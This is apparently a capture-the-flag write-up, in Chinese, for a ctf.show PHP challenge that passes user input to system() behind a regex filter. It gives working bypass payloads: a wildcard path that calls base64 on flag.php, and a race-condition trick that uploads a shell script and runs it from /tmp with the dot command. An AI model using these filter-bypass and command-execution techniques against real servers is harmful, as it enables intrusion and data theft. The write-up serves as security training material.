







```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 20:03:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

字母

`

%

\x09即制表符

\x26即&符号

\>

\<


### 第一种

之前我是用/???/????64 ????.???去匹配/bin/base64实现base64编码flag.php

实现读取flag，但是现在题目好像变了，不过思路可以学一下

```
?c=/???/????64 ????.???
```





无法读取flag


### 第二种

没有过滤 . 那么就可以利用 . 执行sh命令

通过post传递一个文件，文件里面写sh命令

在上传的过程中，利用.（点）去执行这个文件（形成了条件竞争）

一般来说，上传的这个文件在linux下保存在/tmp/php??????一般后面的六位是随机生成的，最后一位是大写（可以通过linux通配符去匹配）

通过. 去执行sh命令不需要执行权限


构造post上传文件的数据包

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

上传文件，然后抓包






修改数据包内容






利用 . 执行，%20绕过空格 /???/????????[@-[]

/??? 匹配/tmp

/???????? 匹配/phpxxxxx  其中xxxxx表示随机字符

[@-[] 匹配最后一位大写字母


然后文件中内容为sh脚本

```
#!/bin/bash
ls
```


得到当前目录内容


然后读取flag

```
/?c=.%20/???/????????[@-[]]
```

```
#!/bin/bash
tac flag.php
```

